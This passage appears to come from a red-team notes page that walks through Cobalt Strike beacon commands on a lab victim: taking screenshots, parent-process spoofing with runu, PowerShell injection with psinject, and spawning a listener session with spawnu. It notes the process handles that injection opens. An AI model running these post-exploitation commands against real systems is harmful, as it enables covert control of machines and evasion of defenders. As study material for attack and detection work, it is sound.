 ![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-31-30.png>)

### Screenshot

{% code title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-33-51.png>)

### Runu

Runu allows us launching a new process from a specified parent process:

{% code title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-39-20.png>)

### Psinject

This function allows an attacker executing powershell scripts from under any process on the victim system. Note that PID 2872 is the calc.exe process seen in the above screenshot related to `runu`:

{% code title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-44-30.png>)

Highlighted in green are new handles that are opened in the target process when powershell script is being injected:

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-52-16.png>)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-57-30.png>)
